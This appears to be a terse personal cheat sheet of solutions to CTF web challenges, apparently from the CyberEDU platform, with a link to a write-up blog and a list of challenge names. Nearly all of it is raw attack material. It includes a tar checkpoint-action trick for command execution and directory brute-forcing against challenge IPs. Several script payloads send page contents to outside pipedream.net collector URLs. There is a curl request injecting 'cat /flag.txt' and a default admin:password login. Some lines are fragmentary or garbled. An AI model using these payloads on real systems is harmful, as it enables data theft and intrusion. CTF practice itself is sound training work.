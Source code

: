 # RED


1.tartarsausage  -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec="ls"        dirsearch -u http://35.246.139.54:31660/enhjenhzZGN3YWRzYWRhc2Rhc3NhY2FzY2FzY2FzY2FjYWNzZHNhY2FzY2Fzc2FjY2Fz/ -e php,txt,html


2.Frameble     <script> fetch('https://eoxmt8wpvlva3h2.m.pipedream.net?data='+document.body.innerText); </script>      AN          <script>fetch('https://enxe7m9zrqkto.x.pipedream.net?data='+document.body.innerText);</script>


-3.rundown     curl -X OPTIONS http://35.246.139.54:30595 -i         http://35.246.139.54:30595/console             curl -X POST http://35.246.139.54:30595 -d "cmd=cat /flag.txt" (ase vipovit rom pickle a)

-4. online-encryption


5 manual-review <script> fetch('https://eoxmt8wpvlva3h2.m.pipedream.net?data='+document.body.innerText); </script>


-6 bolt    http://34.159.151.77:31474/bolt/login admin:password






https://jorgectf.github.io/blog/post/cyberedu-web-challenges/#rundown 
(alien-inclusion
address
broken-login
manual-review
rundown
slightly-broken
ping-station
downloader-v1
puzzled)
